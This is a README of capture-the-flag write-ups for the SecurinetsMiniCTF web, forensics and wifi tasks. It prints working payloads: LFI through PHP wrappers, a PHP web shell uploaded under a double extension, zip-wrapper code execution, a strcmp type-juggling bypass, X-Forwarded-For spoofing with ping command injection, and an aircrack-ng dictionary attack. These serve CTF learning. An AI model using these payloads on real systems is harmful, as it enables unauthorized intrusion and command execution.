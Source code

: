 # SecurinetsMiniCTF Writeups #
Hello guys , you will find here writeups of SecurinetsMiniCTF tasks written by Kahla (Meeeeeee ! ) , i want to apologize for the lack of details in these solvers , i really didn't have enough time (exams are sooon :'( ) anyways don't hesitate and contact me if you had any problems 

## Warm Up () ##

In this task we are given a simple web page showing an include statement , the idea is simple this is a local file inclusion LFI and our goal is to read flag.php content so we will use php wrappers .

***Payload*** : 
> url/_=php://filter/convert.base64-encode/resource=flag.php
we will then have the flag.php content encoded with base64 , so after decoding it we get our flag 

## Up V2 () ##

In this task we are given an upload page, in fact there are two solutions 

- ***The unintended*** one which i think pretty easy xd :

you only have to upload a php shell with the name "foo.jpg.php"
**Example :**

Content of foo.jpg.php :
```php
<?php system($_GET('command')); ?> 
```
and then we just have to visit 
>/uploads/foo.jpg.php?command=YourCommandHere  

- ***The Intended Solution:***

We can notice that there is a possibility of an LFI in the page parameter but unfortunately all the known php wrappers are filtered (The Author is 3vil)

Because of the existence of the upload feature we can think of the possibility of using the zip wrapper
so firstly we create foo.php file : 
```php
<?php system($_GET['command']) ; ?>
```

Then we have to compress the file :
> zip foo.zip foo.php

and rename it to foo.jpg :
> mv foo.zip foo.jpg

and finally after uploading the foo.jpg file our payload will be :
>/?page=zip://uploads/foo.jpg%23foo.php

Now the foo.php will be unzipped and we will have the possibility to execute any command with 
>foo.php?command=YourCommandHere(ls first to list all files and then cat the flag file)

## ##
We are given a page with php code inside , there are two conditions we need to bypass to have our beloved flag , 

- First check :
> if(file_get_contents(@$_GET['__'])==="Kahla is my hero")

in order to bypass this condition we will have to use the input php wrapper 
- The second condition :
>if(strcmp(@$_GET['_'],$pass)==0)

We will exploit php type juggling, in php NULL==0 will return True so we will try to pass an array as a parameter then the strcmp (AnArray,$pass) will return Null 

***Finally this is our payload :***
> /?__=php://input&_[]= 

And don't forget to write the sentence "Kahla is my hero" in the body of the Http request(you can use burp to facilitate things)

## No Clues () ##
In this task we got a picture of the admin connecting to a web server through proxies so we can think that maybe we will use X-forwarded-for http header , You can read about it here [LINK](https://en.wikipedia.org/wiki/X-Forwarded-For)

![TASK](https://i.imgur.com/aBTtnLy.jpg)

As we can see in this wikipedia article , the X-forwarded-for header adds automatically the last connected proxy (proxy 3
in our case which is a load balancer maybe)
>    X-Forwarded-For: client, proxy1, proxy2
where the value is a comma+space separated list of IP addresses, the left-most being the original client, and each successive proxy that passed the request adding the IP address where it received the request from. In this example, the request passed through proxy1, proxy2, and then proxy3 (not shown in the header).

so we will add this header to our http request using burp suite: 
>X-Forwarded-For:adminIP,Proxy1,Proxy2 ***(replace each one with its ip address xd)***

Bingo we are now connected as an admin and we have a simple web page that pings any ip we provide , this step is pretty simple by entering :
>11;ls 

we can have an RCE , so our last payload is 
>12;cat z21851ddfde521782z8

## More Than A Crush 2 () ##

In this Forensics task , we were given a wireshark capture ,each ICMP packet of type 0 hold within it some raw data that's why we ll extract it using scapy library in python , concatenate all this data and then decode it 

![TASK](https://i.imgur.com/429tPOP.png)


```python
#!/usr/bin/env python

from scapy.all import *
import base64

#EXTRACT RAW FLAG
def extract_flag():
    bin=""
    packets=rdpcap("morecv2.pcapng")
    for pckt in packets :
        if pckt.haslayer(scapy.all.ICMP) :
            if pckt[scapy.all.ICMP].type==0:
                try:
#                     pckt[scapy.all.ICMP].show()
                    bin+=pckt[scapy.all.Raw].load
                except ValueError:
                    continue    
    return bin            

#MAIN

raw_bin=extract_flag()    
#DECODE Base64 AND CREATE THE ZIP FILE
with open("youuupi.zip","wb") as file:
	file.write(base64.b64decode(raw_bin))
```
Finally you only have to unzip the extracted file and then use strings tool to have the flag

## ##
This task is pretty simple , we have a pcap file of a handshake so we need to get the password of this access point in order to submit it, we will launch a dictionary attack

>aircrack-ng <filename>.pcap -w /usr/share/wordlists/rockyou.txt

And Bingo the password is ***gohan123***
  
